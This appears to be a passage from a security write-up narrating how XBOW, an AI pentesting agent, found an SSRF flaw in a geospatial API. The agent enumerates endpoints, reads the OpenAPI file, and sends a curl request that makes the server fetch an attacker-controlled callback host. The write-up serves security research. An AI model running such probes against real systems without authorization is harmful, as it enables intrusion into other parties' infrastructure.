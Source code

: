 #### The Journey Begins

XBOW started its reconnaissance by exploring the target application, immediately hitting a 403 Forbidden response. Rather than being deterred, it used concurrent Python requests to test common API paths. This systematic approach quickly paid off with two critical discoveries:

```
The previous step revealed two interesting endpoints:

1. `/ping`: Returns `healthy` with status 200. This is a common health check endpoint and usually doesn't offer much attack surface, but good to note.
2. `/openapi.json`: Returns a large JSON file (402535 bytes) with status 200. This is very promising, as an OpenAPI (Swagger) definition file describes the API structure, including paths,
parameters, and sometimes even authentication methods. This will be invaluable for finding potential SSRF vulnerabilities.

Our next step is to retrieve and analyze the `/openapi.json` file. This will give us a detailed map of the API and help us identify endpoints that might accept URLs or other external resource references as parameters.
```

![](https://xbow.com/sparkle-white.webp)

The OpenAPI documentation was a goldmine. Since XBOW was specifically tasked with finding SSRF vulnerabilities, it immediately began scanning for endpoints that accepted URL parameters. The search revealed multiple promising candidates, all related to geospatial data processing:

- COG (Cloud Optimized GeoTIFF) endpoints
- STAC (SpatioTemporal Asset Catalog) handlers
- MosaicJSON processors

These endpoints typically allow users to specify remote dataset URLs for server-side processing - a classic SSRF scenario waiting to be exploited.

#### First Contact: Confirming the SSRF

XBOW’s initial test was straightforward: it attempted to access a controlled interactsh server through the `/cog/info` endpoint. The test confirmed the vulnerability immediately:

```
$ curl -v "https://[REDACTED]/cog/info?url=http://d12gh236h0ste95n4j40tyeko35ipgg8z.xfil.xbow.ltd/test_ssrf"
```

![](https://xbow.com/sparkle-white.webp)

The interactsh server received both HEAD and GET requests from the target, with the GET request including a Range header attempting to read bytes 0-71.

```
Great progress! We've confirmed that we have a working Server-Side Request Forgery (SSRF) vulnerability. The target server made requests to our interactsh domain, which is evident from the interactsh callbacks we received:

1. We got an HTTP HEAD request from the target server to our interactsh domain
2. Followed by an HTTP GET request with a Range header, trying to read bytes 0-71

The server returned a 500 error with:
`{"detail":"'/vsicurl/http://d12gh236h0ste95n4j40tyeko35ipgg8z.xfil.xbow.ltd/test_ssrf' not recognized as a supported file format."}`

This error gives us valuable information:
- The target application is trying to process our URL as a file format (likely expecting a geospatial file format like GeoTIFF)
- It's using GDAL's virtual file system (VSI) with cURL driver (/vsicurl/) to access remote files

Now that we've confirmed the SSRF is working for HTTP requests, let's try to access the target flag URL.
```